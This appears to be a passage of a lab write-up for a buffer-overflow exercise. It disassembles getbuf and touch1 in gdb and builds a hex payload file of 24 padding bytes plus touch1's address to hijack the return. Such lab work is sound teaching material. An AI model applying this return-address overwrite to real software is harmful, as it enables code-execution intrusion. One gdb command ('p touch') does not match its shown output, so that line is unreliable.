 Then disasemble the getbuf function 

```
(gdb) disas
```

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out. 

```
Dump of assembler code for function getbuf:
=> 0x000055555555594f <+0>:	sub    $0x18,%rsp
   0x0000555555555953 <+4>:	mov    %rsp,%rdi
   0x0000555555555956 <+7>:	callq  0x555555555b9f <Gets>
   0x000055555555595b <+12>:	mov    $0x1,%eax
   0x0000555555555960 <+17>:	add    $0x18,%rsp
   0x0000555555555964 <+21>:	retq   
End of assembler dump.
```

The code ` sub $0x18,%rsp`  indicates that 24(0x18) bytes of buffer is allocated for getbuf. So we need to input 24 bytes of padding followed by the return address of the touch1. 

To find the address the touch1, we need to get the disassembled code.

```
(gdb) disassemble touch1
```

 Then we get codes which looked like

```
Dump of assembler code for function touch1:
   0x0000555555555965 <+0>:	sub    $0x8,%rsp
   0x0000555555555969 <+4>:	movl   $0x1,0x202b69(%rip)        # 0x5555557584dc <vlevel>
   0x0000555555555973 <+14>:	lea    0x178d(%rip),%rdi        # 0x555555557107
   0x000055555555597a <+21>:	callq  0x555555554de0 <puts@plt>
   0x000055555555597f <+26>:	mov    $0x1,%edi
   0x0000555555555984 <+31>:	callq  0x555555555db6 <validate>
   0x0000555555555989 <+36>:	mov    $0x0,%edi
   0x000055555555598e <+41>:	callq  0x555555554f60 <exit@plt>
End of assembler dump.
```

So it's address is at `0x555555555965` 

We can also use `p touch1`  to get its address

```
(gdb) p touch
$1 = {void ()} 0x555555555965 <touch1>
```

Finally create a text file named atk1.txt which will look like below

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00    /* */
00 00 00 00 00 00 00 00    /* the first 24 padding bytes */
65 59 55 55 55 55 00 00    /* address of touch1 */
```
